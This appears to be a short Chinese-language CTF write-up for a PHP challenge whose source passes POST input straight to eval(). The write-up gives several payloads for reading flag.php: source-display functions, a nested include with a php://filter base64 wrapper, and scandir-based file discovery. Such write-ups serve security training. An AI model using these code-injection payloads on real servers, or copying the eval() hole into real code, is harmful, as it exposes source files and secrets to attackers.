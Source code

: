 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

同上



### 第一种

```
c=show_source("flag.php");
```

![image-20250404153048202](./assets/image-20250404153048202.png)

```
c=highlight_file("flag.php");
```

![image-20250404153102570](./assets/image-20250404153102570.png)





### 第二种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404153120489](./assets/image-20250404153120489.png)

![image-20250404153135885](./assets/image-20250404153135885.png)





### 第三种

```
c=var_dump(scandir(getcwd()));
```

![image-20250404153201297](./assets/image-20250404153201297.png)

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250404153206650](./assets/image-20250404153206650.png)